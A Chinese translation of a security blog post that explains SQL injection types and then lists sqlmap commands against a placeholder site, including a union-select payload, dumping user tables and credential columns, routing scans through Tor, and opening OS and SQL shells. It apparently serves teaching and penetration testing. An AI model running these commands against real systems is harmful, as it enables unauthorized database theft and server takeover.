

# SQL 注入:概述

> 原文：<https://infosecwriteups.com/sql-injection-an-overview-1057c5729dc5?source=collection_archive---------3----------------------->

作者= [anshul vyas](https://www.instagram.com/_ansh_vyas/)



# 介绍

SQL 是(结构查询语言)的缩写，是由 IBM 的研究人员 Raymond Boyce 和 Donald Chamberlin 在 20 世纪 70 年代开发的，这种语言是一种帮助管理数据库的后端语言，这种语言可以编辑数据库并进一步检索它，还可以更新、删除和创建新的数据库。数据以表、行和列的
形式存储在数据库中

# 什么是 SQL 注入？

SQL 注入(也称为 SQLi)这是一种特殊类型的注入攻击，有助于操纵 SQL 数据库来检索 SQL 数据库中存在的内容，而无需任何身份验证。如果一个成功的 SQL 注入是由一个个人或一个组织执行的，它可能会损害商誉，这对企业来说是非常糟糕的

# SQL 注入怎么会害人？

SQL 注入是一个需要尽快修复的关键漏洞，它不仅损害了商誉，还损害了用户体验。它是一个如此关键的漏洞，以至于国家漏洞数据库给了它 9.8(关键)分。任何黑客只需简单点击一下，就可以转储数据库中的所有内容

# SQL 注入的类型

基本上有 3 种类型的 SQL 注入，再分为 2 类

## 1.带内 SQLi

这种类型的 SQL 注入是简单的类型和效率。这使得这成为最常见的攻击类型。这也分为两类:

*   **基于错误的 SQLi:** 在这种攻击中，攻击者故意产生一条错误消息，从这条消息中，攻击者可以收集有关 web 应用程序和数据库的信息
*   **基于 Union 的 SQLi:** 在这种攻击中，黑客利用 Union 运算符来利用漏洞。

```
Example — 'UNION SELECT * FROM users, communion SELECT * FROM users, courses
```

然后作为 HTTP 响应的一部分返回。

## 2.推理 SQLi

推理 SQL 注入，它不像其他 SQL 注入带内 SQLi，也许需要更长的时间让恶意黑客利用，但是，它和任何其他形式的 SQL 注入一样危险

*   **基于时间的 SQLi:** 在这种情况下，攻击者向数据库发送一个 SQL 查询，让数据库等待一段时间(以秒为单位)，然后才响应查询的真假。
*   **Boolean SQLi:** 在这个攻击中，攻击者向数据库发送一个 SQL 查询，同时让应用程序通过生成是真还是假的结果来做出响应。

## 3.带外 SQLi

这种类型的攻击在以下两种情况下执行:攻击者无法使用相同的媒介来发起攻击和收集信息，或者服务器非常落后或不稳定，无法执行这些特定类型的操作。

# 如何开发 SQL 注入？

了解 SQL 注入的最佳方式是通过 portswigger 实验室
利用 SQL 注入的最佳工具是通过一些渗透测试工具，如

1.  SQL 映射
2.  硬石膏
3.  JSQLMAP
4.  QSCANNER
5.  BBQSQL

这里我打算通过 SQL MAP 来解释一下。你可以从 https://github.com/sqlmapproject/sqlmap.git 安装 SQL MAP。但是它是预先安装在 Kali linux 中的

## 简易扫描选项

```
sqlmap -u "http://testsite.com/login.php"
```

## 使用 tor 扫描

```
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
```

## 通过手动设置返回时间进行扫描

```
sqlmap -u "http://testsite.com/login.php" --time-sec 15
```

## 列出站点上的所有数据库

```
sqlmap -u "http://testsite.com/login.php" --dbs
```

## 列出特定数据库中的所有表

```
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

## 转储数据库表的内容

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```

## 列出表格中的所有列

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

## 仅转储选定的列

```
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
```

## 当拥有管理员凭据时，我们可以转储数据库

```
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
```

## 获取操作系统外壳

```
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
```

## 获取 SQL Shell

```
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
```

# SQL 注入预防

1.  连续扫描和渗透测试
2.  限制数据库的权限
3.  使用查询参数

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！